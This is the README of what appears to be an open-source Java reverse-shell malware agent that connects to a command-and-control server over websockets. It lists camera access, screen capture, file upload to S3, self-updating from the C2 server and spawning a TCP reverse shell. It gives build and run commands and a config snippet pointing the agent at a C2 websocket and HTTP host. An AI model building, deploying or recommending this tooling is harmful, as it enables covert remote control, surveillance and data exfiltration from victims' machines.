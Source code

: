 # Java Reverse Shell with Websockets

This Java project implements a reverse shell that connects to a command and control server using websockets.

## Features

- Upload Files to S3 bucket
- Play rick roll on target computer
- Access camera
- Screen Capture
- Update Malware From C2 Server
- Spawn a TCP Reverse Shell

## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Security Considerations](#security-considerations)
- [C2 Components](#C2-Components)
- [Contributing](#contributing)

## Prerequisites

Before you begin, ensure you have the following prerequisites:

- Java Development Kit (JDK) installed
- Maven installed

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent.git
    ```

2. Navigate to the project folder:

    ```bash
    cd ReverseShellWebSocketAgent
    ```

3. Build the project using Maven:

    ```bash
    mvn clean install
    ```

## Usage
The project will generate jar with dependencies and exe file.
To use the reverse shell, run the following command:

```bash
java -jar target/reverseShell-1.0.1-jar-with-dependencies.jar
```
## Configuration
Configure the reverse shell by editing the src/main/com/mtattab/reverseshell/util/constants file. Update the following properties:
```java
public static final String SERVER_WEBSOCKET_URI = "wss://c2-server.mtattab.com/reverseShellClients" ; // c2 websocket uri
public static final String SERVER_HTTP_URI = "https://c2-server.mtattab.com" ; // c2 uri for uploading files to s3
```


## Security Considerations
Ensure that you have permission to run the reverse shell on the target system.
Use secure connections (e.g., HTTPS) for the command and control server.
Implement additional security measures as needed for your specific use case.

## C2-Components

[C2 UI](https://github.com/The-Hustler-Hattab/c2-ui)  
[C2 Server](https://github.com/The-Hustler-Hattab/C2JavaServer)   
[C2 JAVA Agent](https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent)  
[C2 C# .NET Agent (RECOMMENDED)](https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet)

## Contributing
Contributions are welcome! 
Please make a pull request for new features